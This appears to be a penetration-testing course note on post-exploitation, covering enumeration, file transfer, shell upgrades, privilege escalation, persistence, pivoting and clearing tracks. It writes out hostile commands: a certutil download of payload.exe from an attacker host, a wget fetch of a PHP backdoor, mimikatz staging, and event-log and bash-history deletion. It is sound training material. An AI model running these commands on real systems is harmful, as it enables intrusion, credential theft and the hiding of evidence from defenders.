










# Post-Exploitation

> #### ⚡ Prerequisites
>
> * Basic familiarity with Linux & Windows
> * Basic understanding of TCP & UDP protocols
> * Basic familiarity with Metasploit and Exploitation
>
> #### 📕 Learning Objectives
>
> * Perform **post exploitation**
> * Perform Win/Linux **local enumeration**
> * Upgrade **shells** and **elevate privileges**
> * Establish **persistence** and **dump** account **hashes**
> * **Pivot** to other systems and **clear** tracks
>
> #### 🔬 Training list - PentesterAcademy/INE Labs
>
> `subscription required`
>
> - [Linux Privilege Escalation](https://www.attackdefense.com/listing?labtype=linux-security-priv-esc&subtype=linux-security-priv-esc-basic)
> - [Windows Privilege Escalation](https://www.attackdefense.com/listing?labtype=windows-priv-esc&subtype=windows-priv-esc-basic)
> - [Linux Pivoting](https://www.attackdefense.com/listing?labtype=linux-security-pivoting&subtype=linux-security-pivoting-getting-started)
> - [Linux Persistence](https://www.attackdefense.com/listing?labtype=linux-security-maintain-access&subtype=linux-security-maintain-access-getting-started)
> - [Windows Persistence](https://www.attackdefense.com/listing?labtype=windows-maintaining-access&subtype=windows-maintaining-access-basics)
>

## [Post-Exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation) Introduction

🗒️ **Post-Exploitation** is the final phase of interaction with a target during a pentest. Using various attacking techniques, the pentester determines the value of the compromised system and keeps control of it for future usage, depending on the kind of access and the stealthiness he must have.

It is *what the pentester does after the initial foothold* and the techniques depends on the target characteristics (operating system, infrastructure).

- The techniques must follow the ***Rules of Engagement*** agreed upon with the client **before the penetration test**, based on the company infrastructure and services.

> ❗**Necessary permissions are required to conduct post-exploitation techniques like modifying services, system configuration, logs deletion, perform privilege escalation.**

### Methodology

1. Local Enumeration
2. Transferring Files
3. Upgrading Shells
4. Privilege Escalation
5. Persistence
6. Dumping & Cracking Hashes
7. Pivoting
8. Clearing Tracks

*The post-exploitation process repeats itself after pivoting to another new target.*

> 🔬 The following techniques are covered in the
>
> * 🪟 [Windows Post-Exploitation Labs](5-post-exploit/win-post-exp.md)
> * 🐧 [Linux Post-Exploitation Labs](5-post-exploit/linux-post-exp.md)

## Windows Local Enumeration

> 📝📌 [Checklist - Local Windows Privilege Escalation | HackTricks](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
>
> 🔬 [Windows Post-Exploitation Lab](5-post-exploit/win-post-exp.md)

### System Information

*What is running on the target system?*

- Hostname
- OS Name, Build, Service Pack, Architecture
- Installed updates/Hotfixes

### Users & Groups

- Current user, privileges & additional user information
- Other users
- Groups
- Members of the built-in administrators group

### Network information & Services

- IP address & network adapter
- Internal networks and other hosts on the network
- TCP/UDP services + ports
- Routing table
- Windows Firewall state
- Running processes & services
- Scheduled tasks

A **process** is an istance of a running program.

A **service** is a process that runs in the background.

### Automating Local Enumeration

The Local Enumeration process can be automated with the help of scripts and Metasploit Framework modules.

- Be time efficient
- Additional enumeration & exploitation information

**Tools**:

- [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

## Linux Local Enumeration

> 📝📌 [Checklist - Linux Privilege Escalation | HackTricks](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
>
> 🔬 [Linux Post-Exploitation Lab](5-post-exploit/linux-post-exp.md)

### System Information

- Hostname
- Distribution & release version
- Kernel version & Architecture
- CPU information
- Disk & mounted drives
- Installed packages

### Users & Groups

- Current user & privileges
- Other users
- Groups

### Network information & Services

- IP address & network adapter
- Internal networks and other hosts on the network
- TCP/UDP services + ports
- Running services
- Scheduled Cron Jobs

### Automating Local Enumeration

The Local Enumeration process can be automated with the help of scripts and Metasploit Framework modules. It is very useful to be time efficient.

**Tools**:

- [LinEnum - rebootuser](https://github.com/rebootuser/LinEnum)
- [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

## Transferring Files

### [Python Web Server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/Tools_and_setup/set_up_a_local_testing_server)

**`Python`** modules can be useful for setting up a web server that hosts the files required for transfer. These modules 

- Check `Python` version

```bash
python -V
python3 -V
py -v # on Windows
```

- [**`SimpleHTTPServer`**](https://docs.python.org/2.7/library/simplehttpserver.html#module-SimpleHTTPServer) - `python2` module

```bash
# If Python version returned is 2.X
python -m SimpleHTTPServer <PORT_NUMBER>
```

- [**`http.server`**](https://docs.python.org/3/library/http.server.html) - `python3` module

```bash
# If Python version is 3.X
python3 -m http.server <PORT>
```

```bash
# On Windows, try 
python -m http.server <PORT>
py -3 -m http.server <PORT>
```

**`e.g.`**

- Copy a file into the current directory and setup the web server to download the file into the target system

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .

# Python 2.7
python -m SimpleHTTPServer 80

# Python 3.7
python3 -m http.server 80
```

- Files can be downloaded from a browser or using a `GET` request



### Transferring Files

#### Windows

- Set up a web server to host the `payload.exe` file 

```bash
# Attacker machine
cd /root/Desktop/ # payload.exe must be here
python3 -m http.server 80
```

- After gaining access to the Windows target system and spawned a command shell session, download the payload file on the target system using the `certutil` tool in `cmd`.

```bash
# Windows Target machine
cd C:\Temp
certutil -urlcache -f http://<ATTACKER-IP>/payload.exe payload.exe
```

#### Linux

- After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.
- 2 terminal sessions are necessary - use `tmux` utility to get more sessions.

[**`tmux`**](https://github.com/tmux/tmux/wiki) - *is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside it*

```bash
sudo apt install tmux -y
```

```bash
# Attacker machine
tmux
# ... Exploitation with MSFconsole in Terminal 0 ...
# CTRL+B and then C to open a new terminal session

cd /usr/share/webshells/php/
ip -br -c a
	192.219.50.2
python3 -m http.server 80
```

```bash
# CTRL+B then 0 (zero) to navigate to the first Terminal session
# Target machine
/bin/bash -i
wget http://192.219.50.2/php-backdoor.php
```



## Interactive Shells

> 🔬 Interactive shells techniques are covered in an INE vulnerable Lab. Commands are below, assuming the target SAMBA service is already exploited through the `exploit/linux/samba/is_known_pipename` MSF module.

- After the exploitation (using `MSFconsole`, `netcat`, etc), a **non-interactive shell** is obtained since it doesn't provide with a prompt
  - This is a command shell session



- Display the list of **shells** on the target system

```bash
cat /etc/shells
    # /etc/shells: valid login shells
    /bin/sh
    /bin/dash
    /bin/bash
    /bin/rbash

/bin/bash -i

/bin/sh -i
```



### Spawn [TTY Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#spawn-shells)

#### Bash

- Upgrade to a simple **`bash`** or **`sh`** session (assuming `bash` is installed on the target system)

```bash
/bin/bash -i
/bin/sh -i
SHELL=/bin/bash script -q /dev/null

# Setup environment variables
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=/bin/bash
```

#### [Python](https://docs.python.org/3/library/pty.html)

- From the non-interactive shell session, check `Python` version (if present)

```bash
python --version
	Python 2.7.9
```

- Spawn a **`bash`** session with `Python`. Specified shell must be listed inside `/etc/shells`

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Fully Interactive TTY**

- Background (`CTRL+Z`) the current remote shell
- Update the local terminal line settings with [`stty`](https://man7.org/linux/man-pages/man1/stty.1.html) and bring the remote shell back with `fg`

```bash
stty raw -echo && fg
```

- Reinitialize the terminal with `reset`

```bash
reset
```

> 📌 For more information on **Full TTY Shells** check
>
> - [Full TTY Shells - HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
> - [Upgrade to Fully Interactive TTYs - 0xffsec](https://0xffsec.com/handbook/shells/full-tty/)

#### Perl

```bash
perl -h
```

- Spawn a **`bash`** session with `Perl`. 

```perl
perl -e 'exec "/bin/bash";'
```

## Windows Privilege Escalation

**Privilege Escalation vulnerabilities** can be identified by using various automation scripts and tools, based on the target system configuration.

- [PrivescCheck](https://github.com/itm4n/PrivescCheck) - *a PowerShell script to enumerate common Windows configuration issues that can be leveraged for local privilege escalation*

```bash
# From CMD
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME% -Format TXT,CSV,HTML,XML"
```

> 🔬 Check
>
> - [Windows Privesc Lab](5-post-exploit/win-privesc.md)
> - [Win Post Exploitation - Metasploit](3-metasploit/win-post-msf.md)

## Linux Privilege Escalation

Privesc vulnerabilities can be identified automatically using the [LinEnum](https://github.com/rebootuser/LinEnum) tool.

- The below labs will focus on **manual** Linux Privilege Escalation techniques, instead
- Linux file Permissions are important

> 🔬 Check
>
> - [Linux Privesc Labs](5-post-exploit/linux-privesc.md)
> - [Linux Post Exploitation - Metasploit](3-metasploit/linux-post-msf.md)

## Windows [Persistence](https://attack.mitre.org/tactics/TA0003/)

🗒️ [**Persistence**](https://attack.mitre.org/tactics/TA0003/) *consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.* - MITRE ATT&CK

> ❗ **Persistence techniques and methods usually require administrative access and must follow the rules of engagement agree with the customer.**



> 🔬 Check the [Windows Persistence Labs](5-post-exploit/win-persistence.md)
>

## Linux Persistence

Linux Server **`SSH`** service is typically enabled and an attacker can take advantage of it.

- If password login is disabled and ***key-based authentication*** is enabled, t*he attacker can copy a user's `SSH` private key and use it for future access.*

Linux **`Cron`** is a service that repeatedly runs **Cron jobs** that can be used for command execution at a fixed interval and ensure persistent access to the target system.

> 🔬 Check the [Linux Persistence Labs](5-post-exploit/linux-persistence.md)

## Dumping & Cracking Hashes

📝 Check the already covered Credential Dumping theory here:

- [Windows Credential Dumping](1-system-attack/windows-attacks.md#windows-credential-dumping)
- [Linux  Credential Dumping](1-system-attack/linux-attacks.md#linux-credential-dumping)

After the dumping process, hashes can be cracked using:

- [John The Ripper](https://github.com/openwall/john)
- [Hashcat](https://hashcat.net/hashcat/)

> 🔬 Check the [Cracking Hashes Labs here](5-post-exploit/crack-hashes.md)

## [Pivoting](https://www.offsec.com/metasploit-unleashed/pivoting/)

🗒️ **Pivoting** is a post exploitation technique of using a compromised host, a **`foothold`** / **`plant`**, to attack other systems on its private internal network.

- Once gained access to the first target host, a forwarded port can be used to exploit other hosts on a private network unreachable from the attacker machine.

🗒️ **Port Forwarding** consists of rerouting/redirecting traffic from a target system's particular port to an attacker system's specific port.

- The service will be remotely available to the attacker system

> 🔬 Check the [Pivoting Lab here(5-post-exploit/pivoting.md)

## Clearing Tracks

According to the rules of engagement, the pentester may be required to **clear any changes** that have been made to the target systems as a result of the exploitation and post-exploitation stages.

A good practice is to store all artifacts payloads, scripts and binaries in these folders:

- Windows - **`C:\Temp`**
- Linux - **`/tmp`**

Metasploit Framework generates and stores a lot of artifacts on the target. *Some modules provides removal resource scripts.*

### Windows

- Delete the **Windows Event Log** can be a good post-exploitation clearing technique.
  - ❗ **Avoid it during a regular Penetration Test, because data inside the Win Event Log is important to the customer.**

**`Metasploit e.g.`**

```bash
cd C:\\
mkdir Temp
cd Temp
# Upload exploit into this C:\Temp directory
```



- Use the `Cleanup RC File`

```bash
# Cleanup Meterpreter RC File:
cat /root/.msf4/logs/persistence/ATTACKDEFENSE_20230429.0454/ATTACKDEFENSE_20230429.0454.rc
```



```bash
background
sessions 1
resource /root/.msf4/logs/persistence/ATTACKDEFENSE_20230429.1019/ATTACKDEFENSE_20230429.1019.rc
```



```bash
# Clear Windows Event Log from the Meterpreter session
# An attacker could potentially do this
clearev
```

### Linux

```bash
cd /tmp
# Upload exploit into this /tmp directory
```

- `bash` history logs the activity and the used commands
- To clear the **`bash history`**

```bash
history -c
```



- **`~/.bash_history`** file content can be deleted too

```bash
cat /dev/null > ~/.bash_history
```



- When using **Metasploit Framework** exploits, proceed manually to clear artifacts from the `/tmp` directory or other used directories.

------

